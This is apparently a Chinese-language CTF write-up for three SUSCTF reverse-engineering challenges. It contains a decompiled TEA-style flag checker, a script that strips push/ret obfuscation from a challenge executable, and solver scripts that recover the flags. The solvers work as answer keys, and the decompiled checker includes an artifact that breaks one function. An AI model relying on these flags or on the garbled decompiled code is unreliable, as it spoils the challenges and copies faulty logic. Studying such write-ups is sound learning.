# visit https://tool.lu/pyc/ for more information
import time

def f1(a, b):
    if a == '1' and b == '1':
        return '1'
    return None
def f2(a, b):
    if a == '0' and b == '0':
        return '0'
    return None
def f3(a):
    if a == '1':
        return '0'
    if None == '0':
        return '1'
def f4(a, b):
    return f2(f1(a, f3(b)), f1(f3(a), b))
def f5(x, y, z):
    s = f4(f4(x, y), z)
    c = f2(f1(x, y), f1(z, f2(x, y)))
    return (s, c)
def f6(a, b):
    ans = ''
    z = '0'
    a = a[::-1]
    b = b[::-1]
    for i in range(32):
        ans += f5(a[i], b[i], z)[0]
        z = f5(a[i], b[i], z)[1]
    
    return ans[::-1]
def f7(a, n):
    return a[n:] + '0' * n
def f8(a, n):
    return n * '0' + a[:-n]
def f9(a, b):
    ans = ''
    for i in range(32):
        ans += f4(a[i], b[i])
    
    return ans
def f10(v0, v1, k0, k1, k2, k3):
    s = '00000000000000000000000000000000'
    d = '10011110001101110111100110111001'
    for i in range(32):
        s = f6(s, d)
        v0 = f6(v0, f9(f9(f6(f7(v1, 4), k0), f6(v1, s)), f6(f8(v1, 5), k1)))
        v1 = f6(v1, f9(f9(f6(f7(v0, 4), k2), f6(v0, s)), f6(f8(v0, 5), k3)))
    
    return v0 + v1

k0 = '0100010001000101'.zfill(32)
k1 = '0100000101000100'.zfill(32)
k2 = '0100001001000101'.zfill(32)
k3 = '0100010101000110'.zfill(32)
flag = input('please input flag:')
if flag[0:7] != 'SUSCTF{' or flag[-1] != '}':
    print('Error!!!The formate of flag is SUSCTF{XXX}')
    time.sleep(5)
    exit(0)
flagstr = flag[7:-1]
if len(flagstr) != 24:
    print('Error!!!The length of flag 24')
    time.sleep(5)
    exit(0)
res = ''
for i in range(0, len(flagstr), 8):
    v0 = flagstr[i:i + 4]
    v0 = bin(ord(flagstr[i]))[2:].zfill(8) + bin(ord(flagstr[i + 1]))[2:].zfill(8) + bin(ord(flagstr[i + 2]))[2:].zfill(8) + bin(ord(flagstr[i + 3]))[2:].zfill(8)
    v1 = bin(ord(flagstr[i + 4]))[2:].zfill(8) + bin(ord(flagstr[i + 5]))[2:].zfill(8) + bin(ord(flagstr[i + 6]))[2:].zfill(8) + bin(ord(flagstr[i + 7]))[2:].zfill(8)
    res += f10(v0, v1, k0, k1, k2, k3)

if res == '001111101000100101000111110010111100110010010100010001100011100100110001001101011000001110001000001110110000101101101000100100111101101001100010011100110110000100111011001011100110010000100111':
    print('True')
else:
    print('False')
time.sleep(5)
```
其实本质是一个TEA（包括魔数都一样了），直接写出TEA解密算法即可
## tttree
在ghidra中打开二进制文件，看到入口函数非常小，没有调用自身以外的东西
```Assembly%20language
longlong __fastcall entry(void)
             longlong          RAX:8               <RETURN>
             undefined8        Stack[-0x30]:8      local_30                                XREF[1]:     1400133ce(W)  
                             entry                                           XREF[2]:     Entry Point(*), 140000120(*)  
         1400133b7 52              PUSH         RDX
         1400133b8 5a              POP          RDX
         1400133b9 51              PUSH         RCX
         1400133ba 59              POP          RCX
         1400133bb 48 83 ec 28     SUB          RSP,0x28
         1400133bf 50              PUSH         RAX
         1400133c0 50              PUSH         RAX
         1400133c1 9c              PUSHFQ
         1400133c2 e8 00 00        CALL         LAB_1400133c7
                   00 00
                             LAB_1400133c7                                   XREF[1]:     1400133c2(j)  
         1400133c7 58              POP          RAX
         1400133c8 48 05 1b        ADD          RAX,0x191b
                   19 00 00
         1400133ce 48 89 44        MOV          qword ptr [RSP + 0x10]=>local_30,RAX=>FUN_1400
                   24 10
         1400133d3 9d              POPFD
         1400133d4 58              POP          RAX
         1400133d5 c3              RET
```

用RET代替跳转和调用。所以它是面向返回的编程，但又有所不同 :D
RET将跳转的地址用mov `[rsp+0x10]`, rax写入，而rax则用pop rax设置；add rax $x
这个pop rax将弹出前一条指令中的调用所推送的返回地址。

所以这整个模式基本上等同于把rip相对地址推到堆栈中（rax和flags将被恢复）最后RET将跳转到它。
pushfq和popfd的使用可能是为了使混淆不会扰乱x86的标志。
不过好在，基本上都是这种模式，所以我写了一个去混淆的脚本，用python-capstone、pefile和pwn.asm来修补二进制。
有两种情况。
①:把rip的相对地址推到堆栈，然后RET ->相当于JMP
②:推送两个rip相对地址到堆栈，然后RET ->我把这解释为如果CALL发生在第二个推送的值上，而调用所推送的返回地址是第一个推送值。
所以我把这个模式大致变成了CALL $second和JMP $first。
不过pwn得asm真的特别慢
Patch exp

```Python
from capstone import *
from capstone.x86 import *
import pwn
import pefile
md = Cs(CS_ARCH_X86, CS_MODE_64)
pwn.context.arch = 'amd64' # Default architecture is i386

md.detail = True
# for reference
# <CsInsn 0x0 [50]: push rax>
# <CsInsn 0x1 [50]: push rax>
# <CsInsn 0x2 [9c]: pushfq >
# <CsInsn 0x3 [e800000000]: call 8>
# <CsInsn 0x8 [58]: pop rax>
# <CsInsn 0x9 [480559d7ffff]: add rax, -0x28a7>
# <CsInsn 0xf [4889442410]: mov qword ptr [rsp + 0x10], rax>
# <CsInsn 0x14 [9d]: popfq >
# <CsInsn 0x15 [58]: pop rax>
# <CsInsn 0x16 [50]: push rax>
# <CsInsn 0x17 [50]: push rax>
# <CsInsn 0x18 [9c]: pushfq >
# <CsInsn 0x19 [e800000000]: call 0x1e>
# <CsInsn 0x1e [58]: pop rax>
# <CsInsn 0x1f [48050781ffff]: add rax, -0x7ef9>
# <CsInsn 0x25 [4889442410]: mov qword ptr [rsp + 0x10], rax>
# <CsInsn 0x2a [9d]: popfq >
# <CsInsn 0x2b [58]: pop rax>
# <CsInsn 0x2c [c3]: ret >

def patch(chunk: bytearray) -> bytearray:
    pattern = b'\x50\x50\x9c'
    for off in range(len(chunk)):
        if chunk[off:off+len(pattern)] == pattern:
            print(hex(off))
            # print(chunk[off:off+16])
            inss = md.disasm(chunk[off:off+0x40], 0)
            # print(inss)
            adr_v = []
            for i in inss:
                print(i)
                # print(i.address)
                if i.mnemonic == 'add':
                    assert i.address in [0x9, 0x1f]
                    assert i.mnemonic == 'add'
                    adr_v.append(i.operands[1].value.imm)
                    # print(hex(add_v))
                if i.address == 0x16:
                    if i.mnemonic == 'ret':

                        assert len(adr_v)>0
                        target = adr_v[0] + 8

                        # print(hex(target+off))
                        n = i.address+i.size
                        chunk[off:off+n] = b'\x90'*n

                        # print(pwn.p32(target), jins)

                        jins = pwn.asm(f'jmp $+{target}')
                        chunk[off:off+len(jins)]=jins
                        break
                    else:
                        assert chunk[off+0x16:off+0x16+len(pattern)] == pattern
                if i.address == 0x16*2:
                    print(adr_v)
                    assert i.mnemonic == 'ret'
                    assert len(adr_v)>1
                    call_target = adr_v[1] + 0x1e
                    jmp_target = adr_v[0] + 8
                    shc = pwn.asm(f'''
                            call $+{call_target}
                            ''')
                    shj = pwn.asm(f'''
                            jmp $+{jmp_target-len(shc)}
                            ''')
                    n = i.address+i.size
                    chunk[off:off+n] = b'\x90'*n

                    jins = shc + shj
                    chunk[off:off+len(jins)]=jins
                    break

    return chunk

pe = pefile.PE("tttree2.exe")
c = bytearray(open('tttree2.exe', 'rb').read())

for s in pe.sections:
    if not (s.IMAGE_SCN_MEM_EXECUTE): # only patch executable regions
        continue
    l = s.PointerToRawData
    r = l + s.SizeOfRawData
    print('offs:', hex(l), hex(r))
    c[l:r] = patch(c[l:r])

open('patched.exe', 'wb').write(c)
```
之后就得到了patch之后的程序 但是仍然不够完全 但是ghidra这个反汇编工具很强大，完全可以反编译
所以我们得到主要程序逻辑
```C
int rng(void)

{
  cur_rng = (int)(((longlong)cur_rng * 0xbc8f) % 0x7fffffff);
  return cur_rng;
}

void insert(int *idx,int v)

{
  int rnd;
  
  if (*idx == 0) {
    node_cnt = node_cnt + 1;
    *idx = node_cnt;
    nodes[*idx].cnt = 1;
    nodes[*idx].size = 1;
    nodes[*idx].value = v;
    nodes[*idx].some_data = (int)flag_input[*idx + 6];
    rnd = rng();
    arr[arr_idx] = rnd;
    nodes[*idx].priority = arr[arr_idx];
    arr_idx = arr_idx + 1;
  }
  else {
    nodes[*idx].size = nodes[*idx].size + 1;
    if (nodes[*idx].value == v) {
      nodes[*idx].cnt = nodes[*idx].cnt + 1;
    }
    else if (nodes[*idx].value < v) {
      insert(&nodes[*idx].R,v);
      if (nodes[nodes[*idx].R].priority < nodes[*idx].priority) {
        rot_somehow(idx);
      }
    }
    else {
      insert(&nodes[*idx].L,v);
      if (nodes[nodes[*idx].L].priority < nodes[*idx].priority) {
        rot_otherhow(idx);
      }
    }
  }
  return;
}

int * check(int *idx)

{
  longlong cur_node_idx;
  int idx_cp;
  
  if (*idx != 0) {
    check(&nodes[*idx].L);
    check(&nodes[*idx].R);
    if ((nodes[*idx].L != 0) &&
       (target_l[node_idx_ctr] != (longlong)(nodes[*idx].L * 23 + nodes[*idx].some_data))) {
      puts("error");
      exit(0);
    }
    if ((nodes[*idx].R != 0) &&
       (target_r[node_idx_ctr] != (longlong)(nodes[*idx].R * 23 + nodes[*idx].some_data))) {
      puts("error");
      exit(0);
    }
    idx_cp = *idx;
    cur_node_idx = (longlong)node_idx_ctr;
    node_idx_ctr = node_idx_ctr + 1;
    idx = (int *)(ulonglong)(uint)int_targets[cur_node_idx];
    if (nodes[idx_cp].value != int_targets[cur_node_idx]) {
      puts("error");
      exit(0);
    }
  }
  return idx;
}

undefined8 main_really(undefined8 param_1,undefined8 param_2,undefined8 param_3,undefined8 param_4)

{
  longlong lVar1;
  longlong lVar2;
  int rnd;
  uint _Seed;
  char *tmp;
  int i_1;
  int j;
  longlong i;
  uint flag_on_stack [100];
  undefined8 uStack8;
  
  uStack8 = param_1;
  _Seed = seed((__time64_t *)0x0);
  srand(_Seed);
  print("flag:",param_2,param_3,param_4);
  scanf("%s",flag_input,param_3,param_4);
  for (i_1 = 0; i_1 < 32; i_1 = i_1 + 1) {
    rnd = rng();
    flag_on_stack[i_1] = (int)((longlong)rnd % 107) + 97 + (int)flag_input[i_1 + 7] + i_1;
  }
  if (((((flag_input[0] != 'S') && (flag_input[1] != 'U')) && (flag_input[2] != 'S')) &&
      ((flag_input[3] != 'C' && (flag_input[4] != 'T')))) &&
     ((flag_input[5] != 'F' && ((flag_input[6] != '{' && (flag_input[39] != '}')))))) {
    print("error");
    exit(0);
  }
  // ...
  // length check here
  // ...
  for (j = 0; j < 32; j = j + 1) {
    insert(&root,flag_on_stack[j]);
  }
  check(&root);
  print("\nYES\n");
  return 0;
}
```
逆向主要是有两种类型的判断
1.如果我们知道哪个cur_node_idx(后序遍历索引)对应哪个idx，那么我们可以通过从int_targets[cur_node_idx]中减去(rng()%107 + 97 + idx)来找到idx处的标志字符。
2.当我们知道该节点的字符时，我们可以用check_l和check_r找到子节点的索引。但是，当节点的两边都没有孩子的时候，这就有点棘手。
 如果check_x[cur_node_idx]在23以上的残差与字符不一样，那么我们肯定知道它没有以这种方式出现的孩子否则我以为它是指有孩子
然后只能慢慢手动修复
有了这个想法之后 就可以慢慢递归的去解决他了 但是我们还是不能够丢掉第一个节点
所以我们可以通过他们的节点的优先级来获取 而且由于Treaps的特性，我们知道根节点将有最小的优先级。结果是idx=4
exp
```Python
from pwn import *
from icecream import ic
lrbuf = [ 0xa8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x31, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x13, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x47, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x9e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x3b, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x3a, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x92, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x74, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xc3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x89, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x04, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x60, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xfb, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x9e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x91, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x58, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x7d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4a, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xe9, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xd0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xfc, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x70, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x1f, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x45, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x62, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xa4, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x92, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xac, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xfd, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x47, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x15, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xd4, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xb5, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xfc, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x8b, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4a, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4c, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x8e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xe9, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x55, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2c, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xf5, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xe3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x81, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xe2, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xa8, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x17, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x52, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x3a, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xd0, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xa8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xcc, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x49, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x37, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xec, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x76, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x47, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 ]
target = [ 0xa2, 0x00, 0x00, 0x00, 0xaf, 0x00, 0x00, 0x00, 0x9d, 0x00, 0x00, 0x00, 0xb7, 0x00, 0x00, 0x00, 0xd2, 0x00, 0x00, 0x00, 0xcb, 0x00, 0x00, 0x00, 0xc7, 0x00, 0x00, 0x00, 0xc6, 0x00, 0x00, 0x00, 0xb0, 0x00, 0x00, 0x00, 0xd5, 0x00, 0x00, 0x00, 0xda, 0x00, 0x00, 0x00, 0xe3, 0x00, 0x00, 0x00, 0xe6, 0x00, 0x00, 0x00, 0xe8, 0x00, 0x00, 0x00, 0xe9, 0x00, 0x00, 0x00, 0xf3, 0x00, 0x00, 0x00, 0xf4, 0x00, 0x00, 0x00, 0xef, 0x00, 0x00, 0x00, 0xee, 0x00, 0x00, 0x00, 0xf7, 0x00, 0x00, 0x00, 0xf9, 0x00, 0x00, 0x00, 0xff, 0x00, 0x00, 0x00, 0x01, 0x01, 0x00, 0x00, 0xf5, 0x00, 0x00, 0x00, 0x09, 0x01, 0x00, 0x00, 0x1f, 0x01, 0x00, 0x00, 0x1a, 0x01, 0x00, 0x00, 0x46, 0x01, 0x00, 0x00, 0x24, 0x01, 0x00, 0x00, 0x0f, 0x01, 0x00, 0x00, 0x06, 0x01, 0x00, 0x00, 0xdf, 0x00, 0x00, 0x00 ]
seed = u32(bytearray([ 0x20, 0x14, 0x2b, 0x01 ]))

ic(hex(seed))

def rngesus() -> int:
    global seed
    seed = (seed * 0xbc8f) % 0x7fffffff
    return seed

buf = []
for i in range(0, len(lrbuf), 8):
    cur = lrbuf[i:i+8]
    # print(cur)
    buf.append(u64(bytearray(cur)))

L=buf[:32]
R=buf[32:]
R[10]=0 # pain
assert len(L) == 32
assert len(R) == 32
print('L:', L)
print('R:', R)

no_two_child = []
for i in range(32):
    if L[i]%23 != R[i]%23:
        print(i, L[i], R[i])
        no_two_child.append(i)
print(no_two_child)

t_v = []
for i in range(0, len(target), 4):
    cur = target[i:i+4]
    # print(cur)
    t_v.append(u32(bytearray(cur)))

print()
print('desired values:', t_v)
pads = []
for i in range(32):
    pads.append(rngesus() % 107 + 97 + i)

print('number adds:', pads)

priority = []
for i in range(32):
    priority.append(rngesus())
print()
print('priority:', priority)

sp = []
for i in range(32):
    sp.append((priority[i], i))
sp = sorted(sp)
print(sp)
# since i=4 has smallest priority it's the root
# pi: postorder index
ans=bytearray([0]*32)
did=[]
def go(i: int, pi: int) -> int:
    assert i not in did
    did.append(i)
    cr = t_v[pi] - pads[i]
    ans[i]=cr
    print()
    print(i, pi, chr(cr))
    if pi not in no_two_child:
        assert (L[pi] - cr) % 23 == 0
        assert (R[pi] - cr) % 23 == 0
        li = (L[pi] - cr) // 23
        ri = (R[pi] - cr) // 23
        print(li, ri)
        np = pi
        np = go(ri-1, np-1)
        np = go(li-1, np-1)
        return np
    else:
        print('bad case:')
        print(R[pi], L[pi])
        np = pi

        if (R[pi] - cr) % 23 == 0:
            ri = (R[pi] - cr) // 23
            assert ri>0
            print(priority[i], priority[ri-1])
            np = go(ri-1, np-1)

        if (L[pi] - cr) % 23 == 0:
            li = (L[pi] - cr) // 23
            assert li>0
            print(priority[i], priority[li-1])
            np = go(li-1, np-1)

        return np

go(4, 31)
print(len(did))
print(ans)
```


## hell_world
跟西湖论剑题目gghdl差不多 就是改了下case结构和数据可以根据[链接](http://blog.bluesadi.cn/2021/11/24/西湖论剑gghdl题解/)来解题
从字符串搜索关键点

之后就是慢慢解析每个case的作用 
比如case7是一个循环的判断条件，case11是单字节比较分支。
之后慢慢调试一遍流程后 发现case11条件里面的sub_140009CC0函数与链接函数一样
所以进行调试发现 这个算法其实就是一个异或算法


上面的v74与v71是是输入的加密结果和密文，密文就在本分支的dword_1400F5B80[]数组
而且调试发现 其实加密之后的(2，3 其实表示的就是二进制的 0 ，1)
进而发现其实就是异或加密
异或的数据在case10分支的dword_1400F5C50数组当中

### exp
```Python
data1 = [86,
  218,
  205,
  58,
  126,
  134,
  19,
  181,
  29,
  157,
  252,
  151,
  140,
  49,
  107,
  201,
  251,
  26,
  226,
  45,
  220,
  211,
  241,
  244,
  54,
  9,
  32,
  66,
  4,
  106,
  113,
  83,
  120,
  164,
  151,
  143,
  122,
  114,
  57,
  232,
  61,
  250,
  64,
  61,
  408,
  0,
  0,
  0]
data2 = [5,
  143,
  158,
  121,
  42,
  192,
  104,
  129,
  45,
  252,
  207,
  164,
  181,
  85,
  95,
  228,
  157,
  35,
  214,
  29,
  241,
  231,
  151,
  145,
  6,
  36,
  66,
  113,
  60,
  88,
  92,
  48,
  25,
  198,
  245,
  188,
  75,
  66,
  93,
  218,
  88,
  155,
  36,
  64]
flag = ''
for i in range(len(data2)):
    flag += chr(data1[i] ^ data2[i])
print(flag)
```